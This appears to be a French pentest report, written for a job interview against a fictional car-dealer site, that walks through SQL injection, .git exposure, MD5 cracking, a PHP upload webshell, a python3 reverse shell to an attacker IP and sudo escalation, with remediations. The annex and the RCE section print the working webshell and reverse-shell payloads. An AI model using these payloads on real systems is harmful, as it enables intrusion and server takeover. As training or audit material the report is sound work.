# Rapport d'Audit

## A l'attention de TestaMotors

Auteur : **Hallez Arthur**

Contact : **arthur@gmail.com**

Version : **1.0**

Durée : **2 heures**

Fait le **07/06/2024**

## Table des Matières

1. [Introduction](#introduction)
2. [Objectifs de l'Audit](#objectifs-de-laudit)
3. [Méthodologie](#méthodologie)
4. [Résumé Exécutif](#résumé-exécutif)
    - [Vulnérabilités Critiques](#vulnérabilités-critiques)
        - [Injection SQL](#injection-sql)
        - [Exposition du dossier github](#exposition-du-dossier-github)
        - [Xdebug PHP](#xdebug)
        - [Formulaire d'upload permissif](#upload-permissif)
        - [Binaire executer avec les droits root](#binaire-mal-configuré)
        - [CVE sur le serveur](#cve-sur-le-serveur)
    - [Vulnérabilités Moyennes](#vulnérabilités-moyennes)
        - [Algorithmes de Hachage Dépassés](#algorithmes-de-hachage-dépassés)
    - [Vulnérabilités Faibles](#vulnérabilités-faibles)
        - [Configuration PHP Exposée](#configuration-php-exposée)
5. [Conclusion](#conclusion)
6. [Annexes](#annexes)
    - [Logs et Scripts Utilisés](#logs-et-scripts-utilisés)

<div style="page-break-after: always; visibility: hidden"> 
\pagebreak 
</div>

## Introduction

Cet audit a été réalisé dans le cadre d'un entretien d'embauche pour le poste d'alternant pentesteur chez Orange Cyber Defense. L'objectif est d'évaluer mes compétences en test de pénétration ainsi que mes compétences d'analyse de vulnérabilités. L'infrastructure est fictive. Les résultats obtenus permettront de mettre en évidence mes capacités à mener des tests de pénétration et à fournir des recommandations de sécurité pertinentes.

## Objectifs de l'Audit

- Identifier et évaluer les vulnérabilités de sécurité présentes dans l'infrastructure.
- Fournir des recommandations pour remédier aux vulnérabilités identifiées.

## Résumé Rapide

1. [**Exploitation des Vulnérabilités SQL :**](#exploitation-des-vulnérabilités-sql)
    - Découverte d'une injection SQL sur le paramètre `id` des pages admin.
    - Utilisation de `SQLmap` pour verifier l'exploitation de l'injection SQL.

1. [**Scan Nmap**](#reconnaissance-active)
    - Utilisation de `Nmap` pour obtenir des informations sur les services actifs.
    - Port 80 (HTTP), 8080(HTTP) et 22 (SSH) ouverts.

2. [**Énumération de Répertoires :**](#énumération-de-répertoire)
    - Utilisation de `Gobuster` pour découvrir des répertoires cachés comme `/.git/`, `/admin/`.

4. [**Accès aux code source de l'application :**](#accès-dossier-sensible)
    - Récupération du dossier `.git` contenant des informations sensibles notamment le code source de l'application ainsi que des fichier SQL contenant des secrets.

5. [**Cassage des Mots de Passe :**](#craquage-de-mot-de-passe)
    - Extraction et craquage du hachage MD5 du mot de passe de l'utilisateur 'admin' par le biais de `John the Ripper`.

5. [**Upload de fichier malicieux :**](#exploitation-des-uploads-de-fichier)
    - dû a plusieurs manque de verification il a été possible d'upload des fichiers de type .php étant interpreter par le serveur.

5. [**Execution de commande a distance :**](#rce)
    - Par le biais d'un webshell, nous avons pu executer des commandes sur le serveur distant afin d'en prendre le controle.

6. [**Accès SSH :**](#récupération-du-dossier-sur-ma-machine)
    - Utilisation des clés SSH trouvées pour accéder au serveur via SSH.
    - Accès réussi avec les identifiants craqués.

7. [**Escalade de Privilèges :**](#passage-super-utilisateur)
    - Utilisation de `linPEAS` pour identifier les escalade de privilèges.
    - Exploitation des permissions `sudo` pour obtenir un accès root.

<div style="page-break-after: always; visibility: hidden"> 
\pagebreak 
</div>

## Méthodologie

### Scénario d'Exploitation

#### Compromission de la Machine 35.180.243.34

##### Reconnaissance Active

Nous avons commencé par un scan `Nmap` sur l'IP 35.180.243.34. Celui-ci nous a permis de constater que les ports 80 (Web HTTP), 8080 (Web HTTP) et 22 (SSH) étaient ouverts. grace aux script d'enumeration de nmap (option `-sC`) nous avons pu découvrir un dossier nommée `.git` à la racine de l'application.



##### Énumération de Répertoire

Nous avons donc en parallèle lancé une énumération de dossiers sur le serveur web avec l'outil `gobuster` via la commande suivante : ```gobuster dir -w `fzf-wordlists` -u http://35.180.243.34/```.



Nous avons également lancé un scan `nuclei` qui nous a permis de voir une potentielle injection SQL ainsi que la fonctionnalité xdebug .



Nous avons alors utilisé SQLmap pour avoir la preuve que celle-ci était bien présente.

##### Exploitation des Vulnérabilités SQL

Le résultat de nuclei nous indiquant une injection sql nous avons tenter de la verifier par le biais de SQlmap

`sqlmap -u 'http://35.180.243.34/admin/view_car.php?id=-1'`




##### Accès Dossier Sensible

Afin de confirmer la présente d'un dossier `.git`. Nous avons donc utilisé l'outil `git-dumper` disponible à [l'url suivante ](https://github.com/arthaud/git-dumper) :  afin de récupérer le contenu sur notre poste et ainsi parcourir le code source du site internet obtenus.



En regardant dans le code source de la page web, nous nous sommes apercu qu'un fichier .sql contenait le hash de l'utilisateur nommé 'admin'.




##### Craquage de Mot de Passe

Après avoir récupéré ces informations, nous pouvons lancer l'outil `John the Ripper` pour essayer de brute force le mot de passe.

Cependant, le hash étant assez commun, nous avions besoin de trouver le format de celui-ci afin de tenter une attaque par dictionnaire.

C'est pour cela que nous avons parcouru le code source à la recherche de l'algorithme utilisé, en l'occurence le MD5 : 



Une fois toute les informations en notre possession nous avons pu très rapidement obtenir le mot de passe de l'utilisateur en utilisant la commande suivante : 

`john hashAdmin.txt --format=Raw-MD5`



##### Connexion Administrateur sur le Site Web

Une fois le mot de passe récupéré, nous pouvons nous connecter en tant qu'administrateur sur l'interface web.



En regardant les pages accessibles sur le site, nous avons rapidement aperçu dans "system setting" la possibilité d'uploads de fichiers.

Nous avons donc essayé d'uploader un fichier .php qui contenait uniquement la fonction `phpinfo()`. Cette fonction permet à l'origine de voir les informations de configuration php. Dans notre cas, elle nous permet de vérifier que notre fichier envoyé est bien interprété par le serveur.

Une fois cela vérifié, nous devons trouver le chemin vers le fichier uploadé sur le site. Dans l'onglet Cars, nous pouvons voir apparaître l'image d'une voiture.

 Nous avons donc copié l'URL de l'image et remplacé le nom de l'image par le nom de notre fichier.

 Cependant nous nous obtenus une erreur 404. Après analyse du code source nous avons decelé une fonction nommée `save_settings()` détaillant la logique lié a l'upload

 


Après avoir compris que le fichier était horodaté nous avons tenter d'acceder de nouveau a notre fichier : 



Cette fois ci le phpinfo est bien trouvé et executer par le serveur.

##### Exploitation des Uploads de Fichier

Après avoir effectué cette vérification, nous pouvons injecter un fichier `php` malveillant qui nous permet d'envoyer des commandes au serveur.

Nous avons commencé par vérifier la présence d'utilitaires me permettant d'avoir un reverse shell. Nous avons aperçu grâce à la commande `which` que l'utilitaire python3 était sur le serveur.

### RCE

Nous avons alors utilisé le payload suivant pour initier notre reverse shell.

`export RHOST="172.32.1.218";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")`

et la commande suivante pour créer un serveur d'ecoute sur la machine nommé `ip-172-32-1-218`: `nc -lvnp 1234`



##### Récupération d'une Connexion Utilisateur

Une fois le reverse shell obtenus en tant que www-data, nous avons lancé le script `linpeas` qui permet de faire ressortir les potentielles failles d'escalade de privilèges.



Celui-ci nous a permis de découvrir un dossier compressé intéressant dans le repertoire principale de l'utilisateur testa. Ce dossier est `/home/testa/.ssh-backup.tar.gz`.



##### Récupération du Dossier sur ma Machine

Pour voir son contenu, nous avons dû le télécharger car nous n'avions pas les droits nécessaires pour le décompresser.



Une fois en local, nous avons pu voir son contenu par le biais des commande suivantes

```bash
gzip -d ssh-backup.tar.gz
tar xvf ssh-backup.tar
```
 
 Nous avons trouvé la clé RSA de l'utilisateur testa, ce qui nous a permis de nous connecter en ssh sur le serveur : 



##### Passage Super Utilisateur

Une fois connectés avec l'utilisateur testa, nous avons relancé le script `linpeas`. Celui-ci nous a remonté plusieurs informations intéressantes.

Pour commencer, celui-ci nous récuperer une liste de CVE lié a de l'exploitation kernel.



Linpeas nous a également obtenus une information importante concernant un binaire nommé `install` disponible dans le chemin `/usr/bin/`. En effet ce binaire a la possibilité d'etre executer avec les privileges superutilisateur sur la machine.



Pour l'exploiter, il nous faut créer un fichier contenant un script exécutant un reverse shell.


Nous devons ensuite utiliser le binaire install

```bash
LFILE=file_to_change
TF=$(mktemp)
sudo install -m 6777 $LFILE $TF
```



#### Piste non exploré

le scan `nuclei` Nous montre la présence du xdebug, cette piste aurait également pu nous mener a l'obtention d'un shell sur la victime.



### Outils et Techniques Utilisés

- **Nmap** : Pour scanner les ports et services ouverts.
- **Burp Suite** : Pour analyser les applications web.
- **Gobuster** : Pour découvrir des répertoires et fichiers cachés.
- **Nuclei** : Pour decouvrir des potentielle faille sur l'application web
- **SQLmap** : Pour détecter et exploiter les injections SQL.
- **John the Ripper** : Pour craquer les mots de passe hachés.
- **SSH** : Pour accéder au serveur.
- **LinPEAS** : Pour identifier des escalade de privilèges.

---

<div style="page-break-after: always; visibility: hidden">
\pagebreak 
</div>

## Résumé Exécutif

Cet audit a permis de découvrir plusieurs vulnérabilités critiques au sein de l'infrastructure Testa Motors. Les découvertes incluent :

| Critique  | Moyenne  | Faible  |
|---|---|---|
|- Injection SQL  |- Hachage MD5 des mots de passe  |- Configuration PHP exposée  |
|- Exposition du dossier github | - |- |
|- Xdebug PHP|- |- |
|- Binaire mal configuré|- |- |
|- Formulaire d'upload permissif|-|-|
|- CVE sur le serveur|-|-|


## Résultats Détaillés

### Vulnérabilités Critiques

#### Injection SQL

**Description :** Une injection SQL de type boolean-based blind peut-être effectuer sur le paramètre `id` a l'URL suivant :
`http://35.180.243.34/admin/view_car.php?id=1`

Ce type d'injection signifie que :

L'application web ne renverra rien si la requête est fause et l’attaquant injectera ensuite une requête avec une condition Vrai (1=1). Si le contenu de la page est différent de celui qui a été renvoyé lors de la fausse condition, il est possible d'en déduire que l’injection SQL fonctionne.

**Preuve :**


**Remédiation :**
Pour éviter les injections SQL il y a plusieurs techniques complémentaires.

- les informations entrées par l'utilisateur doivent toujours être vérifiées. En PHP par exemple, l'utilisation de la fonction « mysqli_real_escape_string() ».
- utiliser les procédures stockées : ce sont des routines effectuant toujours les mêmes actions. Elles constituent une aide pour lutter contre les injections SQL.
- requêtes préparées : la requête sera analysée, compilée et optimisée avant d'insérer les paramètres. Elles apportent souvent un gain de performance aussi.
- expressions régulières : ça peut être utile de filtrer les informations entrées par l'utilisateur. Par exemple, si y a les mots clés « union, select » on renvoie vers une page par défaut.
- droits des fichiers : il faut vérifier les droits des fichiers de l'application, pour éviter qu'il ne soit possible de les lire à l'aide d'une injection SQL
- accès au serveur de base de donnée : vérifiez également les applications qui accèdent à la base de donnée et leurs sécurités respectives.
- contrôle plus haut niveau : il est possible de faire des vérifications à plus haut niveau. Par exemple, il est possible d'utiliser « Apache mod_security ».

#### Exposition du dossier github

**Description :** Le dossier `.git` est accèssible sur le site en production. Cela permet a un utilisateur de récuperer le code source du site web. Dans notre cas, le dossier `.git` nous a permis de les secret de l'administrateur.

**Preuve :**


**Remédiation :** Ne pas déployer le dossier `.git` dans les fichiers accessibles en production.


#### Xdebug

**Description :** Une session Xdebug est ouverte sur le serveur. Il est possible pour un utilisateur de récupérer un reverse shell.

**Preuve :**


**Remédiation :**
Désactivation de Xdebug en production, verifiez la configuration du fichier `php.ini`

#### upload permissif

**Description :** Le site web nous permet d'envoyer des fichiers au serveur. L'extension des fichier n'est pas verifier. Ce qui permet aux utilisateur d'envoyer des fichiers malveillants au serveur et d'executer des commandes.

**Preuve :**


**Remédiation :**
- Mettre en place une vérifications des extensions de fichier au niveaux du code source de l'application Web.
- Mettre également en place une vérification coté serveur avec un script `bash` par exemple.

#### Binaire Mal configuré

**Description :** Le binaire `sudo` est mal configuré. Il est possible de lancer le binaire `/usr/bin/install` avec des droits administrateur et sans mot de passe avec l'utilisateur testa. Celui-ci nous permet de creer un fichier executable avec des droit super utilisateur. 

**Preuve :**


**Remédiation :**
- Reconfiguré `sudo` pour qu'il demande un mot de passe pour tous les binaires.
- Ne mettre que les utilisateurs qui ont besoin d'acceder a sudo dans le groupe sudoers.

#### CVE sur le serveur

**Description :** `Linpeas` nous a remonter des CVE exploitant le kernel pour passer super utilisateur sur le serveur.

**Preuve :**


**Remédiation :** Mettre a jour le serveur et les applicatif présent.


### Vulnérabilités Moyennes

#### Hachage MD5 des Mots de Passe

**Description :** Les mots de passe des utilisateurs sont stockés en utilisant l'algorithme de hachage MD5. Cette algorithme est aujourd'hui deprecier. 

**Preuve :**


**Remédiation :** Remplacer MD5 par des algorithmes plus robustes comme bcrypt ou Argon2.

### Vulnérabilités Faibles

#### Configuration PHP Exposée

**Description :** L'accès à `info.php` a exposé des informations détaillées sur la configuration PHP (version PHP 7.4.30).

**Preuve :**


**Remédiation :** Changer les droit d'accèes sur le fichier voir supprimer la page d'informations PHP.

## Conclusion

l'audit a révelé plusieurs vulnérabilité dans l'application Testa Motors. Les principales recommandations incluent :
- Meilleur pratique de sécurité pour les requête SQL.
- Enlever le `.git` de l'application web en production.
- Verifier le fichier `ini` qui gère les sessions Xdebug
- Verifier si le serveur est a jour
- Changer l'algorithme de chiffrement des mots de passe utilisateurs.*

## Annexes

### Logs et Scripts Utilisés

**Exemple de Log Nmap :**


**Payload PHP**

Le code malveillant dans le fichier php

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

**Reverse Shell**

La commande pour récupérer mon reverse shell avec python3

```bash
export RHOST="172.17.0.1";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

**Exemple de Script pour Craquer un Mot de Passe :**

```bash
john hashAdmin.txt --format=Raw-MD5
```


**Création Serveur Web Python3**

Commande pour monter un serveur web avec python3

```bash
python3 -m http.server 9090
```

--- 
